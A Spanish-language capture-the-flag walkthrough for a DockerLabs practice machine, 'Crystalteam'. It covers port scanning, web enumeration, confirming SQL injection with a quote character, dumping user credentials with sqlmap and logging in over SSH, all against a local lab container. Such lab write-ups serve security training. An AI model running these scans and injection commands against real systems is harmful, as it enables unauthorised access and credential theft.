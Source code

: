 # 🖥️ **Máquina: Crystalteam**  
- **🔹 Dificultad:** Fácil  
- **📌 Descripción:**  
  Esta máquina de DockerLabs está diseñada para poner a prueba habilidades en la explotación de bases de datos mediante **inyecciones SQL (SQLi)**. Se centra en la identificación y explotación de vulnerabilidades en consultas MySQL, lo que permite obtener acceso no autorizado a la base de datos y extraer información sensible.  

- **🎯 Objetivo:**  
  - Identificar y explotar fallos de seguridad en la pagina web Certificacion mediante técnicas de **inyección SQL**.  
  - Comprender el impacto de estas vulnerabilidades.  

---

## 🚀 **Despliegue de la Máquina Backend en DockerLabs**  

Para iniciar la máquina, sigue estos pasos:

### 1️⃣ **Descargar el archivo**  
Comienza descargando el archivo en:

```bash
https://drive.google.com/drive/folders/1rmXS7t-rqtLrRHcFd15-Sv8ujptn4fpT?usp=sharing
```

### 2️⃣ **Ejecutar el despliegue automático**  
Una vez descargas el archivo, ejecuta el siguiente comando para desplegar la máquina:
```bash
bash auto_deploy.sh crystalteam.tar
```
![Máquina Backend](/Img/Docker.jpeg)

Una vez iniciada, comprueba la conexión con el siguiente comando:

```bash
ping -c4 172.17.0.2
```

Cuando la conexión esté confirmada, comenzamos la fase de reconocimiento con:

```bash
nmap -p- --open -sS --min-rate 500 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```
📌 **Nota:** En mis repositorios encontrarás scripts personalizados con los comandos utilizados en esta fase.

Para extraer la información relevante de los resultados de escaneo, utilizo el siguiente comando:

```bash
extracPorts allPorts.txt
```

Con los puertos identificados, realizamos un análisis más detallado con el siguiente comando para obtener información sobre los servicios que están corriendo en dichos puertos:

```bash
nmap -p22,80 -sCV 172.17.0.2 -oN target
```
![Máquina Backend](/Img/Puertos.jpeg)

📌 **Nota:** Esta información nos permite identificar posibles vulnerabilidades basadas en las versiones de los servicios, como en este caso, donde el puerto 22 está relacionado con SSH y el puerto 80 con una página web.

Para acceder a la página web desde el navegador, añade la dirección IP de la máquina (172.17.0.2) en tu archivo de hosts. Para ello, edita el archivo con:

```bash
nano /etc/hosts
```
Luego, recopilamos información sobre la página web con el siguiente comando, lo que nos permitirá conocer los servicios y versiones utilizados, y buscar posibles vulnerabilidades:

```bash
whatweb 172.17.0.2
```
![Máquina Backend](/Img/whatweb.jpeg)

Al acceder a la página, observamos que existe varios apartados y un formulario de registro y de login. Intentamos ingresar utilizando credenciales predeterminadas, pero no tienen éxito.

![Máquina Backend](/Img/index.jpeg)

![Máquina Backend](/Img/ad.jpeg)

Para encontrar posibles directorios ocultos, utilizamos **gobuster** con una lista de directorios conocida:

```bash
gobuster dir -u http://172.17.0.2/Certificacion -w /usr/share/seclists/Discovery/web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b '403,404' -x php,html,txt
```
Para encontrar posibles sub-dominios, utilizamos **gobuster** con una lista de directorios conocida:

```bash
gobuster vhost -u http://172.17.0.2/Certificacion -w /usr/share/seclists/Discovery/web-Content/directory-list-2.3-medium.txt -t 20 | grep -v "402"
```

📌 **Nota:** Si no tienes instalada la lista de directorios, puedes hacerlo con:

```bash
apt -y install seclists
```

![Máquina Backend](/Img/domi.jpeg)

![Máquina Backend](/Img/php.jpeg)

No encontramos subdominios o directorios importantes.

Para confirmar si la página es vulnerable a inyecciones SQL, intentamos ingresar `admin'` en el campo de usuario, lo que provoca un error de base de datos. Esto indica que la página es vulnerable a inyecciones SQL, ya que el carácter de comilla simple (') altera la estructura de la consulta SQL.
![Máquina Backend](/Img/in.jpeg)

![Máquina Backend](/Img/error.jpeg)

Utilizamos **Burp Suite** para interceptar la solicitud y luego copiarla a un archivo `.req`, lo que nos permitirá usarla más tarde.

Con **sqlmap**, una herramienta automática para realizar inyecciones SQL, atacamos el formulario para obtener información sensible. El comando utilizado fue:

```bash
sqlmap -r peticione.req --level=5 --risk=3 --dump
```
![Máquina Backend](/Img/sql.jpeg)

Al finalizar la inyección, conseguimos acceder a una base de datos llamada **inicio**, que contiene nombres de usuario y contraseñas. Sin embargo, solo una credencial fue valida para iniciar sesión en la página web. Intentamos acceder por SSH y encontramos que la única credencial válida era `alejandro`. Aunque se puede intentar hacer un ataque automatizado con **Hydra**, la cantidad de contraseñas era pequeña, por lo que se optó por hacerlo manualmente.

![Máquina Backend](/Img/Tabla.jpeg)
Para acceder por SSH, usamos: 

```bash
ssh alejandro@172.17.0.2 -p 22
```
![Máquina Backend](/Img/ssh.jpeg)


